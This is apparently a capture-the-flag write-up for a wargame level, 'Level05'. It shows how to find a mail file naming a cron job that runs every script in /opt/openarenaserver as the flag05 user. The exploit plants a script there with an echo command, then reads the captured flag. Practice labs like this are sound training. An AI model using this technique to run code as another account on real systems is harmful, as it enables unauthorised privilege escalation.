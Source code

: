# Level05

Let's find all files named after our user.
>`find / -name "*level05" 2>/dev/null`

In `/var/mail/level05` we can find a cron job which executes `/usr/sbin/openarenaserver` as flag05 every 2 minutes.
`/usr/sbin/openarenaserver` is a script which executes every script inside `/opt/openarenaserver` and deletes them.

We'll create our own script inside `/opt/openarenaserver`.
>`echo '/bin/getflag > /tmp/flag' > /opt/openarenaserver/getflag`

Get the flag.
>`cat /tmp/flag`
